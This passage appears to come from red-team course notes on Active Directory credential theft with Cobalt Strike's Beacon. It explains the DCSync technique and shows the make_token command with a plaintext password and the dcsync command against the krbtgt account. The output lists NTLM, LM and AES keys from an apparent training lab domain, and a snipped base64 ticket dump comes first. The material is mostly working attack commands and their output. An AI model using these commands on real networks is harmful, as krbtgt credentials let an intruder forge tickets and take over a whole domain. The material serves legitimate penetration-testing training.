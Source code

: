 ```

      doIFuj [...snip...] lDLklP
```

This will output the ticket(s) in `base64` encoded format.

{% hint style="success" %}
&#x20;You may also add the `/nowrap` option which will format the base64 encoding onto a single line - this makes copy & pasting much easier.
{% endhint %}

## DCSync (Domain Controller Synchronization)

The [Directory Replication Service (MS-DRSR) protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) is used to synchronize and replicate Active Directory data between domain controllers.

DCSync is a technique which leverages this protocol to extract _**username**_ and _**credential data**_ from a Domain Controller (DC).

{% hint style="warning" %}
This requires [GetNCChanges](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894) which is usually only available to domain admins.  The technique is included here for completeness, and it will be useful later on.
{% endhint %}

**Beacon has a dedicated&#x20;**<mark style="color:yellow;">**`dcsync`**</mark>**&#x20;command, which calls&#x20;**<mark style="color:yellow;">**`mimikatz lsadump::dcsync`**</mark>**&#x20;in the background:**

```
beacon> make_token DEV\nlamb F3rrari

beacon> dcsync dev.cyberbotic.io DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

Credentials:
  Hash NTLM: 9fb924c244ad44e934c390dc17e02c3d
    ntlm- 0: 9fb924c244ad44e934c390dc17e02c3d
    lm  - 0: 207d5e08551c51892309c0cf652c353b
		
* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e
      aes128_hmac       (4096) : 6fb62ed56c7de778ca5e4fe6da6d3aca
      des_cbc_md5       (4096) : 629189372a372fda
```

